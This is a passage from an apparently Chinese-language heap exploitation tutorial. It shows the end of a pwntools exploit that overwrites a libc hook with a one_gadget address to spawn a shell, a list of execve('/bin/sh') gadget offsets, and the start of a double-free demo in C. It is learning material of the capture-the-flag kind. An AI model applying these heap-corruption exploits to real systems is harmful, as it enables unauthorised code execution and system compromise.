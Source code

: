 ```python
edit(2,payload)

delete(3)
edit(0,'a'*0x18+p64(libc_base+0x3c67a8))
edit(0,p64(libc_base+0x4526A))
#gdb.attach(p)

delete(4)

p.interactive()


'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

```

## double-free

&emsp;&emsp;<font size=2>老样子首先从一个demo程序开始看起：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
        void *p1,*p2,*p3;
        unsigned long* ptr;

        p1=malloc(0x50);
        p2=malloc(0x50);
        ptr=(unsigned long*)p1;

        free(p1);
        free(p2);
        free(p1);

  			//从这里开始分析
        malloc(0x50);
  			//伪造fd指针
        *ptr=0x61616161;

        malloc(0x50);
        malloc(0x50);
        malloc(0x50);

        return 0;
```